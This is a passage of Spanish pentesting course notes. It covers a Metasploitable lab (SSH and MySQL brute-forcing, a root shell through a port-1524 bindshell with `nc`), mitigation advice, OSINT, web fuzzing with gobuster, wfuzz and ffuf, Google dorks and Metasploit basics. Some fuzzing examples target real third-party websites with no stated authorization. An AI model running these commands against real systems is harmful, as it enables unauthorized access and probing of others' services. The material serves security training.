NSE: [ssh-brute] Trying username/password pair: root:123456
...
```

| Parámetro | Descripción |
|-----------|-------------|
| `-p 22` | Limita el escaneo al puerto 22 (SSH). |
| `--script ssh-brute` | Ejecuta el script NSE de fuerza bruta contra SSH. |
| `--script-args userdb=...,passdb=...` | Indica los diccionarios de usuarios y contraseñas para el script. |

##### Ataque a bindshell (puerto 1524)

Podemos ejecutar una shell a través del puerto 1524, que nos da acceso directo al sistema gracias a una *bind shell* (puerta trasera o *backdoor*).

```bash
┌──(root㉿kali)-[~]
└─# nc 198.0.2.6 1524
root@ui11:/# whoami
root
```

> **Importante:** El puerto 1524 expone una *bind shell* con privilegios de `root`. Basta con conectarse con `nc` (Netcat) para obtener una shell interactiva como superusuario, sin necesidad de credenciales.

##### Ataque a MySQL (puerto 3306)

Primero intento conectarme con `root` y pruebo contraseñas típicas.

```bash
┌──(root㉿kali)-[~]
└─# mysql -u root -p -h 198.0.2.6
Enter password:
ERROR 2026 (HY000): TLS/SSL error: wrong version number
```

Intento realizar un ataque de fuerza bruta con el script `mysql-brute`, pero no da resultado.

```bash
┌──(root㉿kali)-[~]
└─# nmap -p3306 --script mysql-brute 198.0.2.6
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-10-14 07:11 CEST
Nmap scan report for 198.0.2.6
Host is up (0.019s latency).

PORT     STATE SERVICE
3306/tcp open  mysql
| mysql-brute:
|   Accounts: No valid accounts found
|   Statistics: Performed 50004 guesses in 374 seconds, average tps: 89.0
|_  ERROR: The service seems to have failed or is heavily firewalled...
MAC Address: 08:00:27:D8:16:4E (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 383.69 seconds
```

Pruebo con la herramienta `hydra` el ataque al puerto 3306 de MySQL con el diccionario de claves `rockyou.txt` para comprobar si encontramos un par usuario/contraseña válido.

```bash
┌──(root㉿kali)-[~]
└─# hydra -L usuarios.txt -P /usr/share/wordlists/rockyou.txt mysql://198.0.2.6

Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-10-12 10:36:46
[INFO] Reduced number of tasks to 4 (mysql does not like many parallel connections)
[DATA] max 4 tasks per 1 server, overall 4 tasks, 129099591 login tries (l:9/p:14344399), ~32274898 tries per task
[DATA] attacking mysql://198.0.2.6:3306/
[STATUS] 4155.00 tries/min, 4155 tries in 00:01h, 129095436 to do in 517:50h, 4 active
[STATUS] 2124.33 tries/min, 6373 tries in 00:03h, 129093220 to do in 1012:49h, 2 active
[STATUS] 1179.86 tries/min, 8259 tries in 00:07h, 129091335 to do in 1823:33h, 1 active
[ERROR] all children were disabled due too many connection errors
0 of 1 target completed, 0 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-10-12 10:45:33
```

> **Nota (Conclusión):** Podemos ver que algunos ataques han sido exitosos y otros no; al final tratamos de conseguir acceso a la máquina remota, lo cual hemos logrado de diferentes modos. El objetivo sería probar todos los puertos y tratar de realizar un ataque a través de cada uno de ellos.

### Ejercicio 4 — Medidas de mitigación

Explique las medidas de seguridad básicas que podrían adoptarse para mitigar estas vulnerabilidades.

Para mitigar las vulnerabilidades relacionadas con los puertos abiertos detectados en la máquina `198.0.2.6`, se pueden adoptar las siguientes medidas de seguridad básicas:

1. **Actualizar y parchear el sistema y servicios:** mantener el sistema operativo y los servicios asociados (RPC, SMB, MySQL, FTP, etc.) siempre actualizados con los últimos parches de seguridad oficiales para corregir vulnerabilidades conocidas.

2. **Restringir accesos mediante firewall:** configurar firewalls a nivel de host y de red para limitar el acceso a los puertos sensibles (135 RPC, 445 SMB, 3306 MySQL, 513 rlogin…) solo a IPs de confianza y segmentos internos autorizados. Esto reduce el riesgo de accesos no autorizados desde redes externas o no confiables.

3. **Deshabilitar o limitar servicios innecesarios:** si alguno de estos servicios no es imprescindible en el entorno, deshabilitarlo para minimizar la superficie de ataque. Servicios como Telnet, RSH, Rlogin o las *bind shells* deberían eliminarse por completo.

4. **Uso de autenticación fuerte y cifrado:** configurar los servicios para exigir contraseñas robustas, autenticación multifactor si es posible, y cifrado de comunicaciones para proteger la confidencialidad e integridad de los datos.

5. **Monitoreo y alertas:** implementar mecanismos de monitoreo y análisis de logs para detectar accesos sospechosos o intentos de explotación relacionados con estos servicios.

6. **Segmentación de red:** aplicar una segmentación adecuada para aislar sistemas críticos y limitar el movimiento lateral en caso de compromiso.

---

## Reconocimiento (OSINT) y reconocimiento web

Además del escaneo activo con `nmap`, la fase de reconocimiento incluye técnicas **pasivas** (OSINT, *Open Source Intelligence*), que obtienen información del objetivo a partir de fuentes públicas sin interactuar directamente con sus sistemas, y técnicas de **reconocimiento web**, orientadas a descubrir subdominios, recursos ocultos y tecnologías de una aplicación.

> **Nota:** El reconocimiento pasivo (consultar buscadores, registros DNS, certificados o filtraciones) es sigiloso porque no genera tráfico contra el objetivo. El reconocimiento activo (fuzzing, escaneo) sí contacta con los sistemas y, por tanto, es más detectable. En una auditoría real conviene empezar por lo pasivo.

### Validación de objetivos y alcance (Scope) en HackerOne

HackerOne es una plataforma de *Bug Bounty* que permite a las empresas y organizaciones que desean ser auditadas "conectar" con hackers éticos para encontrar vulnerabilidades de seguridad en sus sistemas y aplicaciones de forma legal.

Antes de iniciar una auditoría es fundamental fijar un objetivo claro y definir su **alcance** (*scope*). El scope establece los límites de la auditoría: qué sistemas, dominios y aplicaciones pueden auditarse y cuáles quedan explícitamente fuera. Conocerlo de antemano evita malentendidos durante el proceso de reporte de vulnerabilidades.

> **Importante:** Respetar el scope es obligatorio. Atacar activos fuera del alcance definido no solo invalida el reporte, sino que puede constituir una actividad ilegal. Revisa siempre las reglas del programa antes de lanzar cualquier prueba.

### Descubrimiento de correos electrónicos

La recolección de correos electrónicos es una tarea importante en la fase de OSINT. Los correos pueden ser una valiosa fuente de información para atacar posibles paneles de autenticación (adivinando nombres de usuario) y para preparar campañas de *phishing*.

Existen varias herramientas online que ayudan en este proceso:

| Herramienta | Uso |
|-------------|-----|
| [Hunter](https://hunter.io/) | Busca correos electrónicos asociados a un dominio concreto. |
| [Intelligence X](https://intelx.io/) | Busca información relacionada con correos, nombres de usuario y otros datos filtrados. |
| [Phonebook.cz](https://phonebook.cz/) | Busca correos y otros datos de contacto relacionados con empresas de todo el mundo. |
| Clearbit Connect | Extensión de Chrome/Gmail que obtiene información de contacto en tiempo real y la añade a los contactos. |

> **Nota:** La recolección de correos por sí sola no identifica directamente vulnerabilidades en una red o sistema, pero aporta información muy útil para fases posteriores (fuerza bruta de credenciales, ingeniería social).

### Reconocimiento de imágenes

Las tecnologías de reconocimiento de imágenes permiten obtener información valiosa sobre personas y lugares a partir de una fotografía.

Una de las herramientas más conocidas es **PimEyes**, una plataforma que utiliza reconocimiento facial para buscar imágenes similares en Internet a partir de una imagen de entrada. Su funcionamiento se basa en el análisis de patrones faciales, que se comparan con una base de datos de imágenes en línea para encontrar coincidencias. Puede ayudar a localizar perfiles en redes sociales, correos, nombres y otra información personal asociada a una cara.

- Enlace: [PimEyes](https://pimeyes.com/en)

> **Advertencia:** El reconocimiento facial afecta directamente a la privacidad de las personas. Úsalo únicamente en contextos legales y autorizados (auditorías con consentimiento, investigaciones legítimas).

### Enumeración de subdominios

La enumeración de subdominios es una de las fases cruciales del reconocimiento: consiste en identificar los subdominios asociados a un dominio principal. Los subdominios suelen apuntar a distintos recursos (servidores web, correo, bases de datos, gestores de contenido…), por lo que descubrirlos amplía la superficie de ataque. Por ejemplo, un subdominio que apunte a un servidor web desactualizado puede convertirse en el vector de entrada.

Existen dos enfoques:

- **Pasivo:** obtiene los subdominios sin enviar solicitudes al objetivo, consultando fuentes externas (buscadores como Google o Bing, registros DNS públicos como PassiveTotal o Censys, o certificados SSL/TLS mediante CTFR).
- **Activo:** envía solicitudes al objetivo probando nombres por fuerza bruta con herramientas de fuzzing como `gobuster` o `wfuzz`.

| Herramienta | Tipo | Uso |
|-------------|------|-----|
| [Phonebook.cz](https://phonebook.cz/) | Pasiva | Búsqueda de datos asociados a un dominio. |
| [Intelligence X](https://intelx.io/) | Pasiva | Búsqueda de información y subdominios filtrados. |
| [CTFR](https://github.com/UnaPibaGeek/ctfr) | Pasiva | Subdominios a partir de certificados SSL/TLS (*Certificate Transparency*). |
| [Sublist3r](https://github.com/huntergregal/Sublist3r) | Pasiva | Enumeración de subdominios desde múltiples fuentes públicas. |
| [Gobuster](https://github.com/OJ/gobuster) | Activa | Fuerza bruta de subdominios (modo `dns`) y hosts virtuales (modo `vhost`). |
| [Wfuzz](https://github.com/xmendez/wfuzz) | Activa | Fuzzing de subdominios mediante la cabecera `Host`. |

### Gobuster — descubrimiento por fuerza bruta

`gobuster` es una herramienta de línea de comandos de código abierto escrita en **Go** (lo que le otorga una gran velocidad). Se utiliza para descubrir elementos y rutas ocultas en servidores y aplicaciones web mediante fuerza bruta. A diferencia de un escáner de vulnerabilidades, gobuster es un *descubridor*: prueba masivamente las palabras de un diccionario (*wordlist*) contra un objetivo y se queda con las que devuelven una respuesta válida.

Gobuster se divide en varios modos según lo que se quiera auditar:

| Modo | Descripción | Ejemplo |
|------|-------------|---------|
| `dir` | El más utilizado. Busca directorios y archivos ocultos en un sitio web (paneles como `/admin`, `/login`, o archivos como `/config.php`). | `gobuster dir -u http://192.168.100.6 -w /usr/share/wordlists/dirb/common.txt -x php,html,txt` |
| `fuzz` | Más avanzado y versátil. En lugar de añadir palabras al final de la ruta, permite decidir con la palabra clave `FUZZ` el punto exacto donde inyectar el diccionario. | `gobuster fuzz -u "http://192.168.100.6/FUZZ" -w /usr/share/wordlists/dirb/common.txt` |
| `dns` | Encuentra subdominios de un dominio probando nombres comunes (`dev.dominio.com`, `mail.dominio.com`…). | `gobuster dns -d dominio.com -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt` |
| `vhost` | Identifica *virtual hosts*: sitios internos o en desarrollo alojados en la misma IP pública pero que responden a nombres distintos. | Ver el ejemplo siguiente. |

```bash
┌──(root㉿kali)-[~]
└─# gobuster vhost -u https://tinder.com -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt -t 20
```

| Parámetro | Descripción |
|-----------|-------------|
| `vhost` | Modo de descubrimiento de hosts virtuales. |
| `-u https://tinder.com` | URL del objetivo. |
| `-w <wordlist>` | Diccionario de nombres a probar. |
| `-t 20` | Número de hilos concurrentes (velocidad del ataque). |

> **Nota:** Conviene no confundir `vhost` y `dns`. El modo **`vhost`** busca distintas páginas web alojadas dentro de un mismo servidor web (variando la cabecera `Host`); el modo **`dns`** busca nombres registrados en la "agenda" del servidor DNS.

También podemos enumerar subdominios (o *virtual hosts*) con `wfuzz`, sustituyendo la palabra clave `FUZZ` en la cabecera `Host`:

```bash
┌──(root㉿kali)-[~]
└─# wfuzz -c -t 20 -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -H "Host: FUZZ.ejemplo.com" https://tinder.com
```

> **Nota:** `wfuzz` se describe en detalle, junto con `gobuster dir`, en la sección [Fuzzing y enumeración de recursos web](#fuzzing-y-enumeración-de-recursos-web).

### Credenciales y brechas de seguridad

Una de las técnicas más habituales de los atacantes es la explotación de **credenciales filtradas** procedentes de brechas de seguridad. Estas filtraciones (*leaks*) pueden originarse por errores de configuración, vulnerabilidades del software o ataques directos. Cuando una base de datos se ve comprometida, se expone información sensible: nombres de usuario, contraseñas (a menudo en forma de *hash*) y otros datos personales.

Con esa información, un atacante puede lanzar ataques de fuerza bruta o *credential stuffing*, campañas de *phishing* y otras técnicas de ingeniería social para acceder a sistemas y cuentas protegidas. Muchas de estas bases de datos filtradas son accesibles públicamente o se venden por cantidades muy pequeñas, lo que las pone al alcance de cualquiera.

- Herramienta de ejemplo (pasiva): [DeHashed](https://www.dehashed.com/)

> **Recuerda:** La reutilización de contraseñas entre servicios es lo que hace tan peligrosas estas filtraciones: una contraseña filtrada en un servicio puede dar acceso a otros. De ahí la importancia de contraseñas únicas y de un segundo factor de autenticación.

### Identificación de tecnologías web

Desde el punto de vista de la seguridad es fundamental conocer las tecnologías que utiliza una página web (lenguaje de programación, servidor web, gestor de contenidos, librerías…). Identificarlas permite evaluar los riesgos del sitio, buscar vulnerabilidades conocidas para esas versiones concretas y diseñar el resto del ataque.

| Herramienta | Tipo | Uso |
|-------------|------|-----|
| [WhatWeb](https://github.com/urbanadventurer/WhatWeb) | Activa | Escanea la web desde consola e informa de tecnologías, cabeceras y posibles puntos débiles. |
| [Wappalyzer](https://addons.mozilla.org/es/firefox/addon/wappalyzer/) | Pasiva | Extensión de navegador que detecta y muestra las tecnologías sin lanzar un escaneo. |
| [BuiltWith](https://builtwith.com/) | Pasiva | Servicio online que informa de las tecnologías y añade estadísticas de tráfico y popularidad. |

El siguiente ejemplo usa `whatweb` contra un sitio real para identificar servidor, cabeceras de seguridad, CDN y otros detalles:

```bash
┌──(root㉿kali)-[~]
└─# whatweb https://www.fotocasa.es/es
https://www.fotocasa.es/es [200 OK] Cookies[re_uuid], Country[UNITED STATES][US], Google-Analytics[Universal], HttpOnly[re_uuid], IP[52.222.132.67], OpenSearch[/xml/openSearchFotocasa.xml], Script[application/json,application/ld+json], Strict-Transport-Security[max-age=31536000; includeSubDomains], UncommonHeaders[x-traefik-router,server-timing,x-platform,x-request-id,x-amz-cf-pop,alt-svc,x-amz-cf-id,referrer-policy,x-content-type-options], Via-Proxy[1.1 1fd68f8887041521ea932b4c30543cba.cloudfront.net (CloudFront)], X-Frame-Options[SAMEORIGIN], X-XSS-Protection[1; mode=block]
```

> **Nota:** En la salida de `whatweb` fíjate en las cabeceras de seguridad (`Strict-Transport-Security`, `X-Frame-Options`, `X-XSS-Protection`): su presencia o ausencia da pistas sobre el nivel de endurecimiento del servidor.

### Fuzzing y enumeración de recursos web

El *fuzzing* de directorios y archivos consiste en descubrir rutas y recursos ocultos de un servidor web mediante fuerza bruta con un diccionario. El objetivo es encontrar recursos no enlazados (paneles, copias de seguridad, archivos de configuración) que podrían abrir un vector de ataque. Las dos herramientas más usadas para esta tarea son `gobuster` y `wfuzz`:

| Herramienta | Lenguaje | Fortalezas | Debilidades |
|-------------|----------|------------|-------------|
| `gobuster` | Go | Muy rápida, sencilla de usar, sintaxis simple. | Menos personalizable que wfuzz. |
| `wfuzz` | Python | Muy personalizable (fuzzing de parámetros, cabeceras, rangos…). | Sintaxis más compleja y algo más lenta. |

La elección de una u otra depende de las necesidades: `gobuster` para descubrimiento rápido de directorios, `wfuzz` cuando se necesita un control fino del punto de inyección.

El siguiente ejemplo usa `gobuster dir` para enumerar directorios y archivos `.php`/`.html`, descartando las respuestas 403 y 404:

```bash
┌──(root㉿kali)-[~]
└─# gobuster dir -t 50 -b 403,404 -x php,html -u https://www.fotocasa.es/es -w /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt
===============================================================
Gobuster v3.8.2
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     https://www.fotocasa.es/es
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt
[+] Negative Status codes:   403,404
[+] User Agent:              gobuster/3.8.2
[+] Extensions:              php,html
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
alerts               (Status: 200) [Size: 488990]
Login                (Status: 200) [Size: 424007]
Progress: 14286 / 661674 (2.16%)
```

| Parámetro | Descripción |
|-----------|-------------|
| `dir` | Modo de enumeración de directorios y archivos. |
| `-t 50` | Hilos concurrentes. |
| `-b 403,404` | Códigos de estado a ignorar (*blacklist*). |
| `-x php,html` | Extensiones de archivo a probar además del nombre base. |
| `-u <url>` | URL objetivo. |
| `-w <wordlist>` | Diccionario de rutas. |

El mismo objetivo con `wfuzz`, ocultando las respuestas 404 con `--hc 404` y usando la palabra clave `FUZZ` para el punto de inyección:

```bash
┌──(root㉿kali)-[~]
└─# wfuzz -c -t 50 --hc 404 -w /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt https://www.fotocasa.es/es/FUZZ
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
default
default
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: https://www.fotocasa.es/es/FUZZ
Total requests: 220559

=====================================================================
ID           Response   Lines    Word       Chars       Payload
=====================================================================

000000053:   200        140 L    29976 W    420029 Ch   "login"
...
```

`wfuzz` dispone de parámetros para ajustar el alcance y la profundidad del reconocimiento filtrando la salida:

| Parámetro | Descripción |
|-----------|-------------|
| `-c` | Colorea la salida. |
| `-t 50` | Hilos concurrentes. |
| `--hc 404` | Oculta las respuestas con ese código de estado (*hide code*). |
| `--sl <n>` | Filtra por un número de líneas determinado (*show lines*). |
| `--hl <n>` | Oculta las respuestas con ese número de líneas (*hide lines*). |
| `-z <tipo>` | Indica el tipo de dato (*payload*) a usar: diccionarios, listas o rangos numéricos. |
| `-w <wordlist>` | Diccionario de entrada. |

Gracias a las palabras clave `FUZZ`/`FUZ2Z` y a los distintos tipos de *payload*, `wfuzz` permite escenarios más avanzados que la simple enumeración de directorios.

**Fuzzing de archivos con dos puntos de inyección (`FUZZ` y `FUZ2Z`)**

Cuando queremos combinar dos diccionarios a la vez —por ejemplo, un nombre de archivo y su extensión— usamos dos palabras clave: `FUZZ` (alimentada por `-w`) y `FUZ2Z` (alimentada por `-z`). En este ejemplo se prueban nombres de archivo del diccionario con las extensiones `html`, `txt` y `php`:

```bash
┌──(root㉿kali)-[~]
└─# wfuzz -c --hc=404,403 -t 200 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -z list,html-txt-php https://miwifi.com/FUZZ.FUZ2Z
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: https://miwifi.com/FUZZ.FUZ2Z
Total requests: 661638

=====================================================================
ID           Response   Lines    Word      Chars       Payload
=====================================================================

000000001:   200        191 L    476 W     7398 Ch     "index - html"
000000346:   200        24 L     38 W      420 Ch      "jobs - html"
```

| Parámetro | Descripción |
|-----------|-------------|
| `--hc=404,403` | Oculta las respuestas con código 404 y 403 (varios códigos separados por coma). |
| `-t 200` | 200 hilos concurrentes (escaneo muy rápido). |
| `-w <wordlist>` | Diccionario que alimenta la primera palabra clave `FUZZ` (el nombre del archivo). |
| `-z list,html-txt-php` | *Payload* de tipo `list` para la segunda palabra clave `FUZ2Z`; los valores se separan con guion (`html`, `txt`, `php`). |
| `FUZZ.FUZ2Z` | Doble punto de inyección: `nombre.extensión`. |

> **Nota:** El resultado (`"index - html"`, `"jobs - html"`) muestra cómo `wfuzz` combina ambos *payloads*: `FUZZ` = nombre e `FUZ2Z` = extensión. Así se descubren archivos como `index.html` o `jobs.html`.

**Fuzzing de un parámetro con un rango numérico**

`wfuzz` no solo sirve para rutas: también puede inyectar valores en un parámetro `GET`. Aquí se enumeran identificadores de producto del 1 al 20000 sobre el parámetro `product_id`, ocultando la respuesta "vacía" por número de palabras:

```bash
┌──(root㉿kali)-[~]
└─# wfuzz -c --hw=6515 -t 200 -z range,1-20000 'https://www.mi.com/shop/buy/detail?product_id=FUZZ'
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: https://www.mi.com/shop/buy/detail?product_id=FUZZ
Total requests: 20000

=====================================================================
ID           Response   Lines     Word      Chars        Payload
=====================================================================

000000701:   200        2708 L    6620 W    245509 Ch    "701"
000001281:   200        2582 L    6526 W    239084 Ch    "1281"
000001314:   200        2582 L    6526 W    239132 Ch    "1314"
000001869:   200        2582 L    6526 W    239100 Ch    "1869"
000001945:   200        2642 L    6569 W    242264 Ch    "1945"
```

| Parámetro | Descripción |
|-----------|-------------|
| `--hw=6515` | Oculta las respuestas que tienen 6515 palabras (*hide words*); ese es el tamaño de la página "producto no encontrado", así que solo se muestran los IDs válidos. |
| `-z range,1-20000` | *Payload* de tipo `range`: genera los números del 1 al 20000. |
| `product_id=FUZZ` | Punto de inyección dentro del parámetro `GET`. |

> **Advertencia:** Enumerar identificadores secuenciales (`product_id`, `user_id`, `invoice`, etc.) es la base de las vulnerabilidades de tipo **IDOR** (*Insecure Direct Object Reference*), que permiten acceder a recursos de otros usuarios cambiando simplemente el número.

### ffuf

`ffuf` (*Fuzz Faster U Fool*) es un fuzzer web de código abierto escrito en **Go**, orientado al descubrimiento de rutas, archivos, subdominios, *virtual hosts* y parámetros. Es, hoy en día, una de las herramientas de fuzzing más populares porque une la **velocidad de gobuster** (por estar escrito en Go) con la **flexibilidad de wfuzz** (palabra clave `FUZZ` en cualquier posición y potentes filtros).

Al igual que `wfuzz`, utiliza la palabra clave `FUZZ` para marcar el punto de inyección.

```bash
# Enumeración de directorios y archivos
ffuf -w /usr/share/wordlists/dirb/common.txt -u https://ejemplo.com/FUZZ -e .php,.html -mc 200,301,302

# Enumeración de subdominios / virtual hosts (cabecera Host)
ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u https://ejemplo.com -H "Host: FUZZ.ejemplo.com" -fs 0

# Fuzzing de un parámetro GET
ffuf -w /usr/share/wordlists/params.txt -u "https://ejemplo.com/page?FUZZ=valor"
```

| Parámetro | Descripción |
|-----------|-------------|
| `-w <wordlist>` | Diccionario de entrada (admite varios con `:KEY` para múltiples puntos). |
| `-u <url>` | URL objetivo, con la palabra clave `FUZZ` en el punto a fuzzear. |
| `-e .php,.html` | Extensiones a añadir. |
| `-H "Host: FUZZ..."` | Cabecera personalizada (para *vhosts*). |
| `-mc 200,301,302` | *Match codes*: solo muestra esos códigos de estado. |
| `-fc 403,404` | *Filter codes*: oculta esos códigos. |
| `-fs <n>` / `-fw <n>` | Filtra por tamaño en bytes / por número de palabras (equivalente a `--hh`/`--hw` de wfuzz). |

> **Nota — ¿cuál elegir si solo pudieras quedarte con una?** Recomendación: **`ffuf`**. `gobuster` es rapidísimo pero poco flexible (puntos de inyección limitados), y `wfuzz` es muy flexible pero más lento y con desarrollo estancado. `ffuf` reúne lo mejor de ambos —velocidad de Go y un sistema de filtros/*matchers* muy potente con `FUZZ` en cualquier posición—, además de estar activamente mantenido. Por eso es hoy el fuzzer web de referencia.

### Google Dorks

El *Google Dorking* (o *Google Hacking*) es una técnica de **reconocimiento pasivo (OSINT)** que consiste en emplear los **operadores de búsqueda avanzada** de Google (y de otros buscadores) para localizar información sensible que ha quedado expuesta e indexada: paneles de administración, ficheros de configuración, documentos internos, copias de seguridad, credenciales, cámaras, etc. No se ataca al objetivo: solo se interroga de forma inteligente al índice del buscador, por lo que es completamente sigilosa.

Principales operadores:

| Operador | Descripción | Ejemplo |
|----------|-------------|---------|
| `site:` | Restringe la búsqueda a un dominio. | `site:ejemplo.com` |
| `inurl:` | La palabra aparece en la URL. | `inurl:admin` |
| `intitle:` | La palabra aparece en el título de la página. | `intitle:"index of"` |
| `intext:` | La palabra aparece en el cuerpo del texto. | `intext:contraseña` |
| `filetype:` / `ext:` | Busca un tipo de archivo concreto. | `filetype:pdf` |
| `cache:` | Muestra la versión cacheada por Google. | `cache:ejemplo.com` |
| `""` | Coincidencia exacta de la frase. | `"clave secreta"` |
| `-` | Excluye un término. | `site:ejemplo.com -www` |
| `OR` / `*` | Alternativa lógica / comodín. | `login OR acceso` |

Ejemplos habituales combinando operadores:

```text
site:ejemplo.com filetype:pdf                 # Documentos PDF publicados
site:ejemplo.com inurl:admin                  # Posibles paneles de administración
site:ejemplo.com ext:sql OR ext:bak           # Volcados de BD o copias de seguridad
intitle:"index of" "backup"                   # Listados de directorios abiertos
site:ejemplo.com intext:"password"            # Cadenas sensibles indexadas
```

Herramientas y recursos útiles:

- Generador de Google Dorks: [Google Hacking — Pentest-Tools](https://pentest-tools.com/information-gathering/google-hacking). Permite construir *dorks* de forma guiada mediante formularios, sin memorizar los operadores.
- [Google Hacking Database (GHDB)](https://www.exploit-db.com/google-hacking-database): repositorio público mantenido por Exploit-DB con miles de *dorks* ya preparados y clasificados por objetivo (ficheros con credenciales, dispositivos, mensajes de error, etc.).

> **Advertencia:** Aunque la información que devuelve un *dork* es pública, acceder a datos sensibles de terceros o utilizarlos puede ser ilegal. Emplea estas técnicas únicamente contra objetivos dentro del alcance autorizado de tu auditoría.

### Identificación y verificación externa de la versión del sistema operativo (TTL)

El **TTL** (*Time To Live*, tiempo de vida) es un valor numérico que indica cuántos "saltos" (*hops*) puede atravesar un paquete por la red antes de ser descartado. También se usa en otros contextos, como el cacheo de CDN o de DNS.

Cuando se crea un paquete y se envía por Internet, existe el riesgo de que circule de enrutador en enrutador indefinidamente. Para evitarlo, cada paquete lleva un TTL: **cada vez que un enrutador lo reenvía, resta 1 a ese valor**. Si el TTL llega a 0, el enrutador descarta el paquete y devuelve un mensaje ICMP al host de origen. Esto, además de evitar bucles, permite estimar la trayectoria y la "antigüedad" de un paquete.

¿Qué relación tiene con la identificación del sistema operativo? Cada sistema operativo parte de un **valor de TTL por defecto distinto**. Observando el TTL de la respuesta podemos deducir, de forma aproximada, qué SO ejecuta la máquina objetivo:

| Sistema operativo | TTL por defecto |
|-------------------|-----------------|
| Linux / Unix / macOS | 64 |
| Windows | 128 |
| Dispositivos de red (routers, Solaris/AIX antiguos) | 255 |

> **Nota:** El valor observado suele ser algo menor que el de la tabla porque cada salto intermedio ha restado 1. Por ejemplo, un TTL de 122 probablemente parta de 128 (Windows) tras 6 saltos, y un TTL de 60 parta de 64 (Linux) tras 4 saltos.

En la práctica, un simple `ping` ya muestra el TTL de la respuesta:

```bash
┌──(kali㉿kali)-[~]
└─$ ping -c 1 192.168.100.6
64 bytes from 192.168.100.6: icmp_seq=1 ttl=64 time=0.42 ms
```

En este caso, un `ttl=64` sugiere que el objetivo es un sistema **Linux/Unix**.

> **Advertencia:** Este método no es infalible: un administrador puede modificar el TTL por defecto de sus equipos para engañar al atacante. Debe tomarse como un indicio, no como una prueba concluyente; conviene verificarlo con otras técnicas (`nmap -O`, banners de servicios, etc.).

Recursos útiles:

- Tabla de valores TTL por defecto: [Subin's Blog — Default Device TTL Values](https://subinsb.com/default-device-ttl-values/).
- Script en Python para identificar el SO a partir del TTL: [WhichSystem](https://pastebin.com/HmBcu7j2).

### Burp Suite en la fase de reconocimiento

Burp Suite es una plataforma de pruebas de penetración en aplicaciones web que actúa como **proxy HTTP**: intercepta el tráfico entre el navegador y el servidor, permitiendo analizar, modificar, aceptar o rechazar cada solicitud y respuesta. En la fase de reconocimiento resulta útil para identificar y enumerar los recursos accesibles de una web. Cuenta con dos ediciones: **Community** (gratuita, incluida en Kali; incluye Proxy, Repeater y Sequencer) y **Professional** (de pago, de PortSwigger; añade escáner automatizado, generador de payloads, extensibilidad vía API e informes).

> **Nota:** El uso detallado de Burp Suite (configuración del proxy, FoxyProxy, interceptación, Intruder, etc.) se documenta en el manual dedicado [01 - Uso de Burp Suite](https://github.com/martin2745/Ciberseguridad/blob/main/DVWA%20Ciberseguridad%20web/01_burpsuite.md) de la carpeta DVWA.

---

## Metasploit Framework

### Parte II. Uso de Metasploit Framework (MSF)

A continuación se presenta una práctica sobre el uso de Metasploit Framework (MSF) en un entorno de laboratorio con la máquina Metasploitable.

En esta práctica se emplearán **módulos auxiliares y exploits** del **Metasploit Framework (MSF)** para acceder y analizar una máquina en red, denominada _Metasploitable_. Metasploit Framework (MSF) es una plataforma **modular de pruebas de penetración escrita en Ruby** que permite **identificar, explotar y validar vulnerabilidades de seguridad** en sistemas y aplicaciones.

Metasploit ofrece un conjunto de herramientas diseñadas para:

- **Explorar y evaluar vulnerabilidades.**
- **Desarrollar exploits personalizados.**
- **Ejecutar payloads** y mantener sesiones interactivas (por ejemplo, con _Meterpreter_).
- **Integrar información** de escaneos realizados por utilidades externas como _Nmap_ o _OpenVAS_.

En **Kali Linux**, Metasploit se encuentra preinstalado como paquete `metasploit-framework` dentro del directorio:

```bash
/usr/share/metasploit-framework
```

Para iniciar el entorno de trabajo, se utiliza la consola interactiva `msfconsole`, que constituye la interfaz principal del framework.

### Comandos básicos de Metasploit Framework

El siguiente cuadro resume los principales comandos de uso en la consola `msfconsole`:

| **Funcionalidad**            | **Comando**                                                                      | **Ejemplo / Descripción**                                               |
| ---------------------------- | -------------------------------------------------------------------------------- | ----------------------------------------------------------------------- |
| Acceder al framework         | `msfconsole`                                                                     | Inicia la consola interactiva.                                          |
| Ayuda y comandos disponibles | `help`                                                                           | Muestra la lista de comandos de uso general.                            |
| Búsqueda de módulos          | `search`                                                                         | `search usermap_script` — Busca módulos por palabra clave.              |
| Configurar opciones          | `set` / `setg`                                                                   | `set RHOST 192.168.18.2` — Define opciones de módulo o globales.        |
| Desarmar variables globales  | `unsetg`                                                                         | Elimina valores asignados globalmente.                                  |
| Seleccionar módulo           | `use`                                                                            | `use exploit/windows/smb/ms17_010_eternalblue` — Selecciona un exploit. |
| Ver objetivos disponibles    | `show targets`                                                                   | Lista los sistemas vulnerables compatibles.                             |
| Listar módulos               | `show auxiliary`, `show exploits`, `show payloads`, `show encoders`, `show nops` | Muestran módulos según categoría.                                       |
| Ejecutar módulo              | `run` o `exploit`                                                                | Lanza el módulo seleccionado.                                           |
| Salir del framework          | `exit`                                                                           | Finaliza la sesión de msfconsole.                                       |

### Ejercicio 1 — Enumeración de usuarios por SMTP

